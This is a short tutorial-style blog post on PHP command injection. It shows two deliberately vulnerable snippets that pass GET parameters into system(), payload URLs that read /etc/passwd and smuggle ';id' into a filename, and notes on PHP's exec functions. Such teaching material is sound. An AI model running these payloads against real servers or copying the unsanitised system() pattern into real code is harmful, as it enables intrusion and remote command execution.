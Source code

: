 ```yaml
---
layout: post
title: "[WEB]Command Injection"
date: 2018-12-26 23:18:02 +0800
categories: [security,web]
tags: [security,web]
---
```


### **Example 1**
```php
<?php

$dir = $_GET["dir"];

if (isset($dir))
{
	echo "<pre>";
	system("ls -al ".$dir);
	echo "</pre>";
}

?>
```
<pre>
payload: http://localhost/ex1.php?dir=| cat /etc/passwd
</pre>

### **Example 2**
```php
<?php

print("Please specify the name of the file to delete");

print("<p>");

$file = $_GET['filename'];

system("rm $file");
?>
```
#### Request
<pre>payload: http://127.0.0.1/delete.php?filename=bob.txt;id</pre>

#### Response

<pre>
Please specify the name of the file to delete

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
</pre>

---


```
命令注入攻擊PHP中可以使用下列5個函數來執行外部的應用程序或函數
system、exec、passthru、shell_exec、``(與shell_exec功能相同)函數原型

string system(string command, int &return_var)

command 要執行的命令

return_var 存放執行命令的執行後的狀態值

string exec (string command, array &output, int &return_var)

command 要執行的命令

output 獲得執行命令輸出的每一行字符串

return_var 存放執行命令後的狀態值

void passthru (string command, int &return_var)

command 要執行的命令

return_var 存放執行命令後的狀態值

string shell_exec (string command)

command 要執行的命令
```


參考來源<br />
[https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)